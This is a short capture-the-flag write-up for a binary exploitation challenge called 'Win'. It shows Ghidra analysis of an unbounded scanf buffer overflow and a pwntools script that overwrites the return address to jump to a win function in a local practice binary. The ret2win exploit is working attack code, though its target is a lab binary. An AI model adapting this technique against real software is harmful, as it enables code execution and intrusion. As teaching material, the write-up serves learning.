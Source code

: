```yaml
---
title: "CWE Challenge - Win"
author: Michael Mendoza
date: "2023-01-21"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...
```


# Information Gathering

## Ghidra

After decompiling the binary, we can see that the vulnerability is in the read_in function.

![Ghidra](./images/read_in.png)
\ **Figure 1:** Read_In Function

The right side shows how scanf is used to overflow buf which can only hold 44 bytes. On the left side, we can see the buf variable is at an offset of 0x38 bytes.

We can also see the win function right above the read_in function!

![Ghidra](./images/win.png)
\ **Figure 2:** Win Function

It looks like the win function is at an address of 0x08049df5. 

# Creating the Exploit

This exploit will be simple, we overwrite the instruction pointer to point to the address of the win function, which will print the flag.

## Python Script

```
from pwn import *

offset = 0x38* b'A' #offset found in Ghidra

p = process('./win') #create variable p for process interaction

win = p32(0x08049df5) #found win function at this address, packed it with 32bit package

payload = offset + win

p.sendline(payload) 

p.interactive()
```

## Flag

![Flag](./images/flag.png)
\ **Figure 3:** Flag

Our exploit works!

# Conclusion

Learning how the stack can be exploited by a buffer overflow attack and how to overwrite the instruction pointer was important to solving this challenge.

# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
